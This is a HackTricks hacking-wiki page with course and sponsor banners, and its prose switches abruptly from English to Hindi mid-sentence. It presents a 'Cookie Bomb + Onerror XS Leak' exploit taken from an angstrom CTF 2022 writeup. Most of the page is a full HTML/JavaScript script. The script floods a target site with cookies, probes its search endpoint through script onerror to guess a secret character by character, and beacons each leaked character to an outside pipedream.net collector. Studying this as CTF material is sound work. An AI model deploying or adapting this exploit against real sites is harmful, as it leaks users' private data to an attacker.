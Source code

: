# Cookie Bomb + Onerror XS Leak

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **किसी भी मात्रा में कुकीज़ डालने** के लिए, और फिर एक फ़ाइल को स्क्रिप्ट के रूप में लोड करना यह जानते हुए कि सही प्रतिक्रिया गलत प्रतिक्रिया से बड़ी होगी और फिर। यदि सफल होता है, तो प्रतिक्रिया एक रीडायरेक्ट होती है जिसमें परिणामस्वरूप URL लंबा होता है, **सर्वर द्वारा संभालने के लिए बहुत बड़ा है इसलिए एक त्रुटि HTTP स्थिति कोड लौटाता है**। यदि खोज विफल होती है, तो कुछ नहीं होगा क्योंकि URL छोटा है।
```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
const $ = document.querySelector.bind(document);
const sleep = (ms) => new Promise(r => setTimeout(r, ms));
let i = 0;
const stuff = async (len=3500) => {
let name = Math.random();
$("form").target = name;
let w = window.open('', name);
$("#f").value = "_".repeat(len);
$("#f").name = i++;
$("form").submit();
await sleep(100);
};
const isError = async (url) => {
return new Promise(r => {
let script = document.createElement('script');
script.src = url;
script.onload = () => r(false);
script.onerror = () => r(true);
document.head.appendChild(script);
});
}
const search = (query) => {
return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
};
const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
const url = "//en4u1nbmyeahu.x.pipedream.net/";
let known = "actf{";
window.onload = async () => {
navigator.sendBeacon(url + "?load");
await Promise.all([stuff(), stuff(), stuff(), stuff()]);
await stuff(1600);
navigator.sendBeacon(url + "?go");
while (true) {
for (let c of alphabet) {
let query = known + c;
if (await search(query)) {
navigator.sendBeacon(url, query);
known += c;
break;
}
}
}
};
</script>
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
